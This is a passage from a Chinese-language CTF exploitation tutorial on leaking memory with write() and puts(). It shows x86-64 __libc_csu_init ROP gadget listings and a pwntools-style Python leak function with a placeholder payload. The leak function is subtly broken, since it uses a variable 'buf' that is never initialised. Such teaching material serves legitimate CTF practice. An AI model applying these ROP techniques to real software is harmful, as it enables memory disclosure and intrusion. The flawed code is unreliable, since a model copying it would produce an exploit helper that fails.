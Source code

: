 第一段代码如下：

```
.text:000000000040075A   pop  rbx  #需置为0，为配合第二段代码的call指令寻址
.text:000000000040075B   pop  rbp  #需置为1
.text:000000000040075C   pop  r12  #需置为要调用的函数地址，注意是got地址而不是plt地址，因为第二段代码中是call指令
.text:000000000040075E   pop  r13  #write函数的第三个参数
.text:0000000000400760   pop  r14  #write函数的第二个参数
.text:0000000000400762   pop  r15  #write函数的第一个参数
.text:0000000000400764   retn
```

第二段代码如下：

```
.text:0000000000400740   mov  rdx, r13
.text:0000000000400743   mov  rsi, r14
.text:0000000000400746   mov  edi, r15d
.text:0000000000400749   call  qword ptr [r12+rbx*8]
```

这两段代码运行后，会将栈顶指针移动56字节，我们在栈中布置56个字节即可。

这样，我们便解决了write函数在leak信息中存在的问题，具体的应用会放到后面的3道题目中讲。

#### puts函数

puts的原型是puts(addr)，即将addr作为起始地址输出字符串，直到遇到“\x00”字符为止。也就是说，puts函数输出的数据长度是不受控的，只要我们输出的信息中包含\x00截断符，输出就会终止，且会自动将“\n”追加到输出字符串的末尾，这是puts函数的缺点，而优点就是需要的参数少，只有1个，无论在x32还是x64环境下，都容易调用。

为了克服输入不受控这一缺点，我们考虑利用puts函数输出的字符串最后一位为“\n“这一特点，分两种情况来解决。

（1）puts输出完后就没有其他输出 ， 在这种情况下的leak函数可以这么写。

```
def leak(address):
  count = 0
  data = ''
  payload = xxx
  p.send(payload)
  print p.recvuntil('xxx\n') #一定要在puts前释放完输出
  up = ""
  while True:
    #由于接收完标志字符串结束的回车符后，就没有其他输出了，故先等待1秒钟，如果确实接收不到了，就说明输出结束了
    #以便与不是标志字符串结束的回车符（0x0A）混淆，这也利用了recv函数的timeout参数，即当timeout结束后仍得不到输出，则直接返回空字符串””
    c = p.recv(numb=1, timeout=1)
    count += 1
    if up == '\n' and c == "":  #接收到的上一个字符为回车符，而当前接收不到新字符，则
      buf = buf[:-1]             #删除puts函数输出的末尾回车符
      buf += "\x00"
      break
    else:
      buf += c
    up = c
  data = buf[:4]  #取指定字节数
  log.info("%#x => %s" % (address, (data or '').encode('hex')))
  return data
```
